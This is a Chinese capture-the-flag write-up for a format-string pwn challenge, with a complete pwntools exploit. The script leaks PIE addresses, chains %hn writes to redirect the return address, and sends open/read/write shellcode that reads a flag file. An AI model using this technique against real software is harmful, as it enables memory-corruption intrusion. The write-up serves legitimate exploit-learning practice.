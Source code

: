 say()：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-41-1024x533.png" alt="img" style="zoom:67%;" />

seccomp规则：只允许open，read，write，mprotect

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-42-1024x336.png" alt="img" style="zoom: 50%;" />

所以这题该怎么打呢。。。原来是非栈上格式化字符串，具体知识点就不介绍了，非栈上格式化字符串还是很好理解的，就是没法任意地址写和任意地址读。

这题需要做的是orw，但是buf又没执行权限，但是我们看到程序里有：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-43.png" alt="img" style="zoom:67%;" />

但是这题开了pie，因此做题步骤就很清晰了：

先搭链子==>泄露main地址==>把ret_addr改为what_addr==>把下一个字节改为shellcode的地址，最后直接传入stop + shellcode达成攻击，exp如下：

```
from pwn import *
#io = process('./fmt2')
io = remote('47.97.58.52',43000)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.sendafter(b'Say something:',b'%11$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recvuntil(b'Shanghai!\n',drop=True).decode(),16)
ret_a = addr - 0xe08 + 0xd08
print(hex(ret_a))
io.sendafter(b'Say something:',b'%7$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recv(12).decode(),16)
what = addr - 0x50 -0x151 +  0xA3
print(hex(what))
payload1 = b'%' + str(ret_a & 0xffff).encode() + b'c%11$hn' + b'\x00'
#gdb.attach(io)
#pause()
io.sendafter(b'Say something:',payload1)
#0x27 = 39
payload0 = b'%' + str(what & 0xffff).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload0)

payload1 = b'%' + str(ret_a+8 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload1)
payload2 = b'%' + str(0x4010).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload2)
payload3 = b'%' + str(ret_a+10 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload3)
payload4 = b'%' + str(0x1451).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload4)
payload5 = b'%' + str(ret_a+12 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload5)
payload6 = b'%' + str(0x0001).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload6)

get_shell = b'stop\x00'
get_shell = get_shell.ljust(16,b'\x00')
addr = 0x114514170
payload7 = shellcraft.amd64.open("./flag")
payload7 += shellcraft.amd64.read(3,addr,0x30)
payload7 += shellcraft.amd64.write(1,addr,0x30)
payload7 = asm(payload7)
get_shell = get_shell + payload7
io.sendafter(b'Say something:',get_shell)
io.interactive()            
```
